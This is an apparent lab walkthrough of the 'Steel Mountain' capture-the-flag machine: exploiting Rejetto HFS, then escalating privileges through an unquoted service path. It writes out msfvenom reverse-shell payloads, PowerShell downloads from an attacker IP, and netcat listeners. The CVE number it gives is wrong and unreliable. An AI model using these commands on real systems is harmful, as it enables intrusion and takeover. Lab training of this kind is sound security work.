



# Steel Mountain

Directly starting from Task_2.

#### Question:Scan the machine with nmap. What is the other port running a web server on?

#### Solution:

#### Enumeration Part

Run the following nmap command in order to scan the target machine.

```bash 
sudo nmap -sS --top-ports 200 target_machine_ip
```


We can see that http-proxy is running on port 8080. So,
#### Answer: 8080

#### Question: Take a look at the other web server. What file server is running?
#### Solution:
Open the browser and enter the url along with port 8080 to see is there anything or not, 
I shown up a web page. Where there was a link for http file server as shown in the screenshot


As I clicked, I shown up a page:


#### Answer: Rejetto http file server

#### Question:What is the CVE number to exploit this file server?
#### Solution: 
I searched about it's vulnerabilities on google and found the correct cve number.
#### Answer: 2024-6287

#### Question: Use Metasploit to get an initial shell. What is the user flag?
#### Solution:
I opened metasplout using command:
`msfconsole`

Then I searched for hfs keyword using command:
`search hfs`

It showed me following output:


Then I selected 4th exploit and then set it's values. Conventionally, LHOST and LPORT means the attackers machine's information and RHSOT and RPORT means target's information. I filled that information and ran the exploit. See the output:


Now, I changed my directory to `c:\Users\bill\Desktop\` and read the content of user.txt:


#### Privilege Escalation:
Now, We need to upload a PowerUp.ps1 file to target machine. For that purpose, download it via the given link and then use the command below to transfer the file to target machine:
```bash
upload /path/to/PowerUp.ps1
```

This path is the path of the script in your attacker machine.


Now, in meterpreter, hit the command:
```
shell
```
Then go to the path where Powerup.ps1 script is present and enter the followind command:
```
powershell -c ". .\PowerUp.ps1; Invoke-AllChecks"
```
Above command will shown up the service that can be exploited, a part of it is shown below:


Now, I am going to replace the actual file with our maclicious file (payload), so when service will start, instead of running legitimate exe file, it will run maclicious file and we will get the root shell.

#### Creating paylod

using msfconsole, we can make our payload:
```
msfvenom -p windows/shell_reverse_tcp LHOST=attacker_machine_ip LPORT=attacker_machine_port -f exe -o Advanced.exe
```
To transfer this payload, we need to run the python server so that we are able to access this payload from the shell of target machine. Command to run python server:
```
python -m http.server 8000
```
Now inside the shell of target machine, run the followind command to copy the payload from attacker's machine:
```
powershell -NoP -NonI -C "Invoke-WebRequest -Uri 'http://attacker_machine_ip:attacker_machine_port/Advanced.exe' -OutFile $env:USERPROFILE\\Desktop\\ASCService.exe"
```
Now I copied this payload to the desired path where legitimate exe file was present, I overwrite that with my payload:
`copy ASCService.exe "C:\Program Files (x86)\IObit\Advanced SystemCare"`
#### Error resolution: 
If you get error while copying it, then first stop the service and then try to copy. Command to stop the service is given ahead.

Now, I stopped the service using the command:
`net stop AdvancedSystemCareService9`
Now, run the netcat on our attacking machine, I ran with the command:

```
nc -lvnp 4443
```

Now, start the service using the command:
```
net start AdvancedSystemCareService9
```

Boom! We've got the root shell at our attacking machine.


Now, to get the flag, move the path "C:\Users\Administrator\Desktop", and run following command:
```
type root.txt
```
Here's the flag!.


### Exploitation without Metasploit

We need to do a google search about the exploit of hfs version 2.3, and it takes us to exploit-db, the link is given below.

[Exploit](https://www.exploit-db.com/exploits/39161)

Download the exploit and run it. Remember to run it via python2, otherwise modify the code according to python3 syntax.

Before running, we need to have some setup that is required by the exploit.
1. Download the netcat exe file from internet
2. run the netcat server on attacker's machine to recieve the connectionn from the target.

To Download netcat exe, use the following link:
[netcat exe](https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe)
You need to change the name of binary because our payload is requests nc.exe instead of ncat.exe. Use followind command to change the name:

```bash
mv ncat.exe nc.exe
```

Now, run the netcat server using following command:
```bash
nc -lvnp 4443
```

Now, change the `ip_addr` to attacker's machine ip and `local_port` to attacker's machine where netcat server is running. In my case it is 4443.

Now, run the exploit using following command:

```bash
python2 exploit.py target_ip 8080
```


Yeah! We got the shell.

Now, we need to escalate our privileges. We know the technique.

For this purpose, we need winpeas. It is used for enumeration at windows machine. You can download it from the following link:
[winPEAS](https://github.com/peass-ng/PEASS-ng/releases/winPEASx64.exe)

Now, copy the winPEAS binary to target machine using following command:
```powershell
powershell -NoP -NonI -C "Invoke-WebRequest -Uri 'http://10.8.25.176:8000/winPEASx64.exe' -OutFile $env:USERPROFILE\\Desktop\\winpeas.exe"
```
Run it:
```
.\winpeas.exe
```


In the above picture, you can see that **No quotes and Space detected**. It is also giving us the path of binary running by that process which is **C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe**. From this screenshot note service name as well **AdvancedSystemCareService9**.

#### Technique
Our technique would be the same as we done previously. Replace that binary with our malicious payload with the same name as **ASCService.exe**. We can copy the payload from attacker's machine to target machine.

First we need to create it using msfvenom. Use command:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=attacker_ip LPORT=attackers_port -f exe -o ASCService.exe
```
In this command, attackers_port is the port where netcat server is at listening mode for incoming connections. Now, we need to make sure a web server (python server) is running:
```
python -m http.server 8000
```
Now, use the following command to copy this payload to target server:
```
powershell -NoP -NonI -C "Invoke-WebRequest -Uri 'http://10.8.25.176:8000/ASCService.exe' -OutFile 'C:\\Program Files (x86)\\IObit\\Advanced SystemCare\\ASCService.exe'"
```
If the above command of copy is failed, then stop the service and then run the command again.
Command to stop the service:
```
net stop AdvancedSystemCareService9
```
After successfully transfer of payload, run the command to start the service but make sure netcat listener is running on attacker's machine. Command to run netcat listener:
```bash
nc -lvnp 4443
```
In the above command, make sure 4443 is the same port as you gave LPORT during payload creation through msfvenom.
Now, start the service:
```
net start AdvancedSystemCareService9
```
Boom! Got the root shell.


